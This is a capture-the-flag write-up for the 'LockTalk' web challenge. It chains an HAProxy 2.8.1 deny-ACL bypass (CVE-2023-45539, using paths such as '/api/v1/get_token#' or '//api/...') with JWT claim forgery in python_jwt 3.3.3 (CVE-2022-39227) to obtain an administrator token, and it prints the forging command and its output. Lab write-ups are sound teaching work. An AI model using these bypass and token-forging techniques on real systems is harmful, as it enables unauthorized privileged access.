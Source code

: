 # LockTalk

Difficulty: <font color='orange'>Medium</font>

Category: web

## Description
>In "The Ransomware Dystopia," LockTalk emerges as a beacon of resistance against the rampant chaos inflicted by ransomware groups. In a world plunged into turmoil by malicious cyber threats, LockTalk stands as a formidable force, dedicated to protecting society from the insidious grip of ransomware. Chosen participants, tasked with representing their districts, navigate a perilous landscape fraught with ethical quandaries and treacherous challenges orchestrated by LockTalk. Their journey intertwines with the organization's mission to neutralize ransomware threats and restore order to a fractured world. As players confront internal struggles and external adversaries, their decisions shape the fate of not only themselves but also their fellow citizens, driving them to unravel the mysteries surrounding LockTalk and choose between succumbing to despair or standing resilient against the encroaching darkness.

## Strategy

To solve the challenge we took advantage of a vulnerability in haproxy version that allows us to **bypass a deny ACL via a path normalization issue** and get unauthorized access to the API as a user with the guest role. Then we proceed to find another vulnerability in the python_jwt library used for signing and verifying JWT tokens that allows us to **forge valid JWT tokens adding custom claims**. The latter allows us to forge a JWT token with the adeministrator role and get the flag.

## Enumeration

![](assets/webapp.png)

### Analyzing the source code

#### 1. haproxy version 2.8.1

The first thing we noticed is the version of haproxy that is referenced in the Dockerfile: 2.8.1. That version got my attention because of being vulnerable to CVE-2023-45539 as mentioned in [\[1\]](https://security.snyk.io/vuln/SNYK-DEBIAN10-HAPROXY-6091978) and [\[2\]](https://github.com/advisories/GHSA-79q7-m98p-qvhp).

![](assets/haproxy-version.png)

![](assets/cve-2023-45539.png)

We can see there is an ACL directive in haproxy.cfg file to deny the request for /api/v1/get_ticket:

```cfg
frontend haproxy
    bind 0.0.0.0:1337
    default_backend backend

    http-request deny if { path_beg,url_dec -i /api/v1/get_ticket }
```

#### 2. python_jtw version 3.3.3

Later on, reviewing the python dependencies we see python_jwt version 3.3.3 which is vulnerable to CVE-2022-39227, which allows to forge valid JWT tokens with modified claims keeping the original signature, as detailed in [\[1\]](https://pypi.org/project/python-jwt/) and [\[2\]](https://github.com/davedoesdev/python-jwt/security/advisories/GHSA-5p8v-58qm-c7fp).

![](assets/python_jwt.png)

![](assets/CVE-2022-39227.png)

#### 3. Elevated privileges to access /flag endpoint

The /flag endpoint is only authorized to be invoked by an administrator:

```
@api_blueprint.route('/flag', methods=['GET'])
@authorize_roles(['administrator'])
def flag():
    return jsonify({'message': current_app.config.get('FLAG')}), 200
```

## Exploitation

### 1. Getting a valid JWT via CVE-2023-45539

Attempting to access /api/v1/get_token directly gives us a 403 HTTP code.

![](assets/deny-rule.png)

We can **bypass that by adding a '#' at the end of the endpoint**: `/api/v1/get_token#`:

![](assets/bypass-haproxy-deny-rule.png)

Using Burp Json Web Tokens plugin we can see the role assigned: "guest".

![](assets/jwt-guest.png)

Reading other writeups it is interesting that there are at least two more different ways to get the same goal:
- perform a GET request to `//api/v1/get_token` as mentioned by [f0rest3xplorer](https://f0rest3xplorer.github.io/posts/locktalk/)
- perform a GET request to `/../api/v1/get_token` as mentioned by [Khanhhnahk1](https://hackmd.io/vlDnNWq5Qwair5d9y5nbWA?view#LockTalk)

There are also others that I tested like `/./api/v1/get_token` or specifying multiple ".." `/../../../../../../api/v1/get_ticket`:

![](assets/bypass-haproxy-2.png)
![](assets/bypass-haproxy-3.png)

### 2. Forging a valid JWT to elevate our privileges via CVE-2022-39227

With the guest JWT we cannot consume the `/flag` endpoint:

![](assets/flag-fail-guest.png)

I found this [repo](https://github.com/user0x1337/CVE-2022-39227/tree/main) in github that eases the forge JWT generation. We add the claim "role=administrator":

```bash
$ python3 cve_2022_39227.py -j "eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAxMDA5MTYsImlhdCI6MTcxMDA5NzMxNiwianRpIjoiQlcyb3gyQU95QWFIaXBWNm5wVWtKdyIsIm5iZiI6MTcxMDA5NzMxNiwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ.dntLt-l9Mu5rMSEzL8V6JmgYLo_p0hbhxpjiSiBy4Hom5XAtGCpJrzeonfN9mWKEqh8wj3mb2slxB6h3-OG3ET7YOR_RdZBUWPwhSRsenLZCo6aUxTM8d1wy-qe7WrBV-9YnCLrKQERO5AwtBdIjsL8Jj1tu2t3AYmbnDorp72616yRNNlLv9iXq9gnZHsBYHjhexA6zGIeqZmHddBnJCglVLi3Bnr9YfokUsh1bWnc1-xp3ERIEH-hO3YzyD1c8ESSiWPjuxapTuOXUyZNjC0nGUFjM9OTvNt5tWvMhaquekszY27j3O4rD0vB1bw1Me_Go3fv5kPASunswGR_rIw" -i "role=administrator"

[+] Retrieved base64 encoded payload: eyJleHAiOjE3MTAxMDA5MTYsImlhdCI6MTcxMDA5NzMxNiwianRpIjoiQlcyb3gyQU95QWFIaXBWNm5wVWtKdyIsIm5iZiI6MTcxMDA5NzMxNiwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ
[+] Decoded payload: {'exp': 1710100916, 'iat': 1710097316, 'jti': 'BW2ox2AOyAaHipV6npUkJw', 'nbf': 1710097316, 'role': 'guest', 'user': 'guest_user'}
[+] Inject new "fake" payload: {'exp': 1710100916, 'iat': 1710097316, 'jti': 'BW2ox2AOyAaHipV6npUkJw', 'nbf': 1710097316, 'role': 'administrator', 'user': 'guest_user'}
[+] Fake payload encoded: eyJleHAiOjE3MTAxMDA5MTYsImlhdCI6MTcxMDA5NzMxNiwianRpIjoiQlcyb3gyQU95QWFIaXBWNm5wVWtKdyIsIm5iZiI6MTcxMDA5NzMxNiwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9

[+] New token:
 {"  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAxMDA5MTYsImlhdCI6MTcxMDA5NzMxNiwianRpIjoiQlcyb3gyQU95QWFIaXBWNm5wVWtKdyIsIm5iZiI6MTcxMDA5NzMxNiwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTAxMDA5MTYsImlhdCI6MTcxMDA5NzMxNiwianRpIjoiQlcyb3gyQU95QWFIaXBWNm5wVWtKdyIsIm5iZiI6MTcxMDA5NzMxNiwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"dntLt-l9Mu5rMSEzL8V6JmgYLo_p0hbhxpjiSiBy4Hom5XAtGCpJrzeonfN9mWKEqh8wj3mb2slxB6h3-OG3ET7YOR_RdZBUWPwhSRsenLZCo6aUxTM8d1wy-qe7WrBV-9YnCLrKQERO5AwtBdIjsL8Jj1tu2t3AYmbnDorp72616yRNNlLv9iXq9gnZHsBYHjhexA6zGIeqZmHddBnJCglVLi3Bnr9YfokUsh1bWnc1-xp3ERIEH-hO3YzyD1c8ESSiWPjuxapTuOXUyZNjC0nGUFjM9OTvNt5tWvMhaquekszY27j3O4rD0vB1bw1Me_Go3fv5kPASunswGR_rIw"}

Example (HTTP-Cookie):
------------------------------
auth={"  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAxMDA5MTYsImlhdCI6MTcxMDA5NzMxNiwianRpIjoiQlcyb3gyQU95QWFIaXBWNm5wVWtKdyIsIm5iZiI6MTcxMDA5NzMxNiwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTAxMDA5MTYsImlhdCI6MTcxMDA5NzMxNiwianRpIjoiQlcyb3gyQU95QWFIaXBWNm5wVWtKdyIsIm5iZiI6MTcxMDA5NzMxNiwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"dntLt-l9Mu5rMSEzL8V6JmgYLo_p0hbhxpjiSiBy4Hom5XAtGCpJrzeonfN9mWKEqh8wj3mb2slxB6h3-OG3ET7YOR_RdZBUWPwhSRsenLZCo6aUxTM8d1wy-qe7WrBV-9YnCLrKQERO5AwtBdIjsL8Jj1tu2t3AYmbnDorp72616yRNNlLv9iXq9gnZHsBYHjhexA6zGIeqZmHddBnJCglVLi3Bnr9YfokUsh1bWnc1-xp3ERIEH-hO3YzyD1c8ESSiWPjuxapTuOXUyZNjC0nGUFjM9OTvNt5tWvMhaquekszY27j3O4rD0vB1bw1Me_Go3fv5kPASunswGR_rIw"}
```

It is important to note this:

![](assets/forged-note.png)

### 3. Getting the flag

Using the forged JWT we get the flag: `HTB{h4Pr0Xy_n3v3r_D1s@pp01n4s}`

![](assets/flag.png)

![](assets/pwned.png)



